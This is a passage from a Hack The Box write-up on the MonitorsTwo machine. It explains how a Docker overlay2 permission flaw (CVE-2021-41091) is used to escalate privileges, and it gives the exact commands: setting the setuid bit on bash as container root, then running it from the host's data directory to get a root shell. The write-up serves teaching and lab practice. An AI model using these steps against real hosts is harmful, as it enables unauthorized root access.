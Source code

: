 Much of this CVE is covered and well explained with code snippets at https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/.

#### CVE-2021-41091

The vulnerability[^cve-2021-41091] affects Moby, an open-source project created by Docker for software containerization. This vulnerability can be exploited by executing programs on the data directories of the containers with insufficiently restricted permissions. Fixed in version 20.10.9 of the Docker Engine. 

If the user is able to view the mounts

```bash
marcus@monitorstwo:~$ findmnt | grep docker/overlay2 | awk '{ print $1 }'
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```

then from within the container, they can modify the permissions of a binary (for e.g. bash) and allow the user on the host to run the bash binary located in the data directory to escalate privileges. The requirement is that the user in the container is root or can become root to modify the permissions. 

**From the container**

```bash
root@container:/bin# chmod +s bash
```

**From the host**

Switch to the data directory that is specific to the container with root privileges.

```bash
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ ./bash -p -i
bash-5.1# whoami
root
```

## Conclusion

The initial access vector was simple with an easy proof-of-concept script but the privesc vector with the mounted overlay directories was interesting and eye-opening on how it can be exploited. This box really required me to think (especially after caving and watching IPPSec's video) about how systems are administered using docker. 

## References

[^htb-link]: <https://app.hackthebox.com/machines/539>
[^cve]: <https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit>
[^cve-2022-46169]: <https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^docker-breakout]: <https://juggernaut-sec.com/docker-breakout-lpe/#Confirming_we_are_in_a_Docker_Container>
[^hashcat]: <https://hashcat.net/wiki/doku.php?id=example_hashes>
[^cve-2021-41091]: <https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/capsh/>
